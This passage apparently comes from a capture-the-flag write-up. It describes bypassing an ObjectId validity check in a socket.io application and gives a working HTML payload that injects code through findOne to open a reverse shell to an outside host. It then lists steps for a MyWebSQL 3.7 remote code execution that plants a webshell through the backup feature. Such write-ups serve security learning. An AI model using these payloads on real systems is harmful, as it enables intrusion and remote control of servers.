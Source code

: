 ```javascript
// Duck-Typing detection of ObjectId like objects
if (id.toHexString) {
    return id.id.length === 12 || (id.id.length === 24 && checkForHexRegExp.test(id.id));
}

...

```

Thus we can easily create an object with those attributes. This object can bypass the `isValid(id)` function.


```javascript
var oid = { 
   toHexString: 'foo',
   id: { 
       length:12
   },
   bar: 'bazz'
}

```

To throw an error in `findOne` is trivial, basically the idea is similar to NoSQL injection. Here is the final payload. Launch this html with `chromium --disable-web-security` to RCE.


```htmlmixed
<script src="http://34.85.27.91:10081/socket.io/socket.io.js"></script>
<script>
  var socket = io('http://34.85.27.91:10081');
  socket.on('connect', function(){});
  socket.emit('init-world', {'new': false, 
    'id': {
      "$gt":1,
      "require('child_process').exec('bash -c \"bash -i >& /dev/tcp/240.240.240.240/1337 0>&1\"')":1,
      toHexString:1,
      id:{"length": 12}
    }, 
    'clientTime': Date.now()
  });
</script>

```

### mywebsql

[MyWebSQL ver 3.7 remote code execution](https://github.com/eddietcc/CVEnotes/blob/master/MyWebSQL/RCE/readme.md)

1. Write PHP code to table
2. Execute `Backup database` function and set filename to `anything.php`
3. You have a webshell now: `/backups/anything.php`
